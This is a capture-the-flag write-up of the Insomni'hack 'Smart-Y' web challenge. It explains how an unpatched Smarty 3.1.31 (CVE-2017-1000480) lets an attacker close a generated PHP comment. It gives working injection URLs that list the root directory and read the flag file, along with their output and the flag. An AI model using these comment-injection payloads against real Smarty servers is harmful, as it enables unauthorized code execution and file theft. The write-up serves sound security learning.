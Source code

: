 # Smart-Y

This challenge was the second most flagged Web challenge of the CTF.

## Description

```
Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.
http://smart-y.teaser.insomnihack.ch
```

## Recon

The description evokes a previous challenge from Insomni'hack 2017. We
therefore started by looking for the
[writeup](https://terryvogelsang.tech/insomnihack-2017-nerdwar/) of this
challenge. At this point, it seems likely that the website uses the Smarty
framework - which is confirmed by the name of the challenge - and that the
SQLi as well as the template injection from the previous edition have been
patched.

The output of `dirb` indicates that the **smarty** directory exists and contains
the following **changelog.txt** file:

```
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables
```

The functionality that was vulnerable to SQL injection through the fetch
function before has been deactivated.
However, the display function is still available:

```php
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

This version of Smarty is vulnerable to
[CVE-2017-1000480](https://www.cvedetails.com/cve/CVE-2017-1000480/).
Unfortunately, we couldn't find any public exploit for it. After digging through
the repository of Smarty, we identified the [commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61)
introducing a patch.


The patch is the following:
```php
-        $output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") .
-                   "\n  from \"" . $_template->source->filepath . "\" */\n\n";
+        $output .= "/* Smarty version {Smarty::SMARTY_VERSION}, created on " . strftime("%Y-%m-%d %H:%M:%S") .
+                   "\n  from \"" . str_replace('*/','* /',$_template->source->filepath) . "\" */\n\n";
```

The patch prevents the user from closing the comment with `*/`.
Since the website uses a version of Smarty that doesn't contain this patch,
was should be able to **close the comment and inject our own code**.

Let's try it.
 
## Exploit
 
1. We start by listing the root directory by visiting the following URL:
`http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(scandir(%27/%27));/*`

This outputs the following result:
```
 array(28) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(3) "bin"
  [3]=>
  string(4) "boot"
  [4]=>
  string(3) "dev"
  [5]=>
  string(3) "etc"
  [6]=>
  string(4) "flag"
  [7]=>
  string(4) "home"
  [8]=>
  string(10) "initrd.img"
  [9]=>
  string(14) "initrd.img.old"
  [10]=>
  string(3) "lib"
  [11]=>
  string(5) "lib64"
  [12]=>
  string(10) "lost+found"
  [13]=>
  string(5) "media"
  [14]=>
  string(3) "mnt"
  [15]=>
  string(3) "opt"
  [16]=>
  string(4) "proc"
  [17]=>
  string(4) "root"
  [18]=>
  string(3) "run"
  [19]=>
  string(4) "sbin"
  [20]=>
  string(4) "snap"
  [21]=>
  string(3) "srv"
  [22]=>
  string(3) "sys"
  [23]=>
  string(3) "tmp"
  [24]=>
  string(3) "usr"
  [25]=>
  string(3) "var"
  [26]=>
  string(7) "vmlinuz"
  [27]=>
  string(11) "vmlinuz.old"
}
```

2. It worked! Now that we got the path to the flag, all that's left is to
actually print it by visiting:
`http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(file_get_contents(%22/flag%22));/*`.

Aaaand, here's the flag:

```string(26) "INS{why_being_so_smart-y}```

## Conclusion

Smart-Y was a really nice challenge, which mainly required to carefully read
a patch. Funnily enough, it seems that the patch is not yet available in a
stable Smarty release.
